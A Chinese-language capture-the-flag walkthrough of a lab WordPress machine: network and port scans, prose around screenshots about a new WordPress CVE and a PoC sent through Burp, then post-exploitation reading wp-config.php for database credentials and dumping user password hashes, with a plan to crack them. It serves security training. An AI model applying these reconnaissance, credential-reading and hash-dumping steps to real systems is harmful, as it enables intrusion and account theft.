## 网段扫描
```
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:df:e2:a7, IPv4: 192.168.56.110
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:12       (Unknown: locally administered)
192.168.56.100  08:00:27:74:96:d1       (Unknown)
192.168.56.115  08:00:27:2f:92:e9       (Unknown)

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.953 seconds (131.08 hosts/sec). 3 responded
```

## 端口扫描

```
└─# nmap -p- -sC -sV 192.168.56.115
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-24 06:53 EST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.115
Host is up (0.0018s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey: 
|   2048 c2:91:d9:a5:f7:a3:98:1f:c1:4a:70:28:aa:ba:a4:10 (RSA)
|   256 3e:1f:c9:eb:c0:6f:24:06:fc:52:5f:2f:1b:35:33:ec (ECDSA)
|_  256 ec:64:87:04:9a:4b:32:fe:2d:1f:9a:b0:81:d3:7c:cf (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-generator: WordPress 6.7.1
|_http-title: bammmmuwe
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:2F:92:E9 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.29 seconds
```

## 获取webshell
  

>这里需要把目录扫一遍，把漏洞关键目录扫出来，这是一个新的wordpress漏洞
> 

  

>太久了只扫目录才行，这里是出靶机的作者设计的，光扫目录就得扫20分钟，但是我电脑扫描挺慢所以得用其他方式扫描
>

  

>介绍一个工具,他可以扫描新出的cve
>
  

>好像是这个,我不打算扫目录太久了
>
  


  


>下面这个才是，上面的不是这个漏洞，很烦我的虚拟机没有网络手查太难了，
>
  
  

>这里给了poc，可以参考，打开burp进行操作
>
  
  
  
  

>才发现php被禁止了一些函数，所以不能怎么用
>
  
  
  
  

>ping 没出现我是很意外的，下次用curl
>

## 提权
```
www-data@listen:~/html/wordpress$ ls -al
total 248
drwxr-xr-x  5 www-data www-data  4096 Jan  8 02:25 .
drwxr-xr-x  3 root     root      4096 Jan  7 23:52 ..
-rwxr-xr-x  1 www-data www-data   405 Jan  8 02:25 index.php
-rwxr-xr-x  1 www-data www-data 19915 Dec 31  2023 license.txt
-rwxr-xr-x  1 www-data www-data  7409 Jun 18  2024 readme.html
-rw-r--r--  1 root     root       684 Jan  8 02:25 update_url.php
-rwxr-xr-x  1 www-data www-data  7387 Feb 13  2024 wp-activate.php
drwxr-xr-x  9 www-data www-data  4096 Nov 21 09:07 wp-admin
-rwxr-xr-x  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php
-rwxr-xr-x  1 www-data www-data  2323 Jun 14  2023 wp-comments-post.php
-rwxr-xr-x  1 www-data www-data  3336 Oct 15 11:24 wp-config-sample.php
-rw-rw-rw-  1 www-data www-data  3620 Jan  8 02:25 wp-config.php
drwxr-xr-x  6 www-data www-data  4096 Jan  8 02:20 wp-content
-rwxr-xr-x  1 www-data www-data  5617 Aug  2 15:40 wp-cron.php
drwxr-xr-x 30 www-data www-data 12288 Nov 21 09:07 wp-includes
-rwxr-xr-x  1 www-data www-data  2502 Nov 26  2022 wp-links-opml.php
-rwxr-xr-x  1 www-data www-data  3937 Mar 11  2024 wp-load.php
-rwxr-xr-x  1 www-data www-data 51367 Sep 30 15:12 wp-login.php
-rwxr-xr-x  1 www-data www-data  8543 Sep 18 18:37 wp-mail.php
-rwxr-xr-x  1 www-data www-data 29032 Sep 30 13:08 wp-settings.php
-rwxr-xr-x  1 www-data www-data 34385 Jun 19  2023 wp-signup.php
-rwxr-xr-x  1 www-data www-data  5102 Oct 18 11:56 wp-trackback.php
-rwxr-xr-x  1 www-data www-data  3246 Mar  2  2024 xmlrpc.php
www-data@listen:~/html/wordpress$ cat wp-con
wp-config-sample.php  wp-config.php         wp-content/           
www-data@listen:~/html/wordpress$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the website, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://developer.wordpress.org/advanced-administration/wordpress/wp-config/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'll104567' );

/** Database password */
define( 'DB_PASSWORD', 'thehandsomeguy' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

```
www-data@listen:/home$ mysql -u ll104567 -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 44660
Server version: 10.3.39-MariaDB-0+deb10u2 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.002 sec)

MariaDB [(none)]> use wordpress
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wordpress]> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.003 sec)

MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+-----------------------+---------------------+-----------------------------------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url              | user_registered     | user_activation_key                           | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------+-----------------------+---------------------+-----------------------------------------------+-------------+--------------+
|  1 | ta0        | $P$BDDc71nM67DbOVN/U50WFGII6EF6.r. | ta0           | 2814928906@qq.com | http://192.168.31.181 | 2025-01-08 03:10:43 |                                               |           0 | ta0          |
|  2 | welcome    | $P$BtP9ZghJTwDfSn1gKKc.k3mq4Vo.Ko/ | welcome       | 127.0.0.1@qq.com  |                       | 2025-01-08 04:29:28 | 1736310568:$P$B2YbhlDVF1XWIurbL11Pfoasb./0tD. |           0 | welcome      |
+----+------------+------------------------------------+---------------+-------------------+-----------------------+---------------------+-----------------------------------------------+-------------+--------------+
2 rows in set (0.004 sec)

MariaDB [wordpress]> 
```
>我把该找的文件都找了一遍，发现没有可以用的，现在只能选择爆破这个密码
>
  
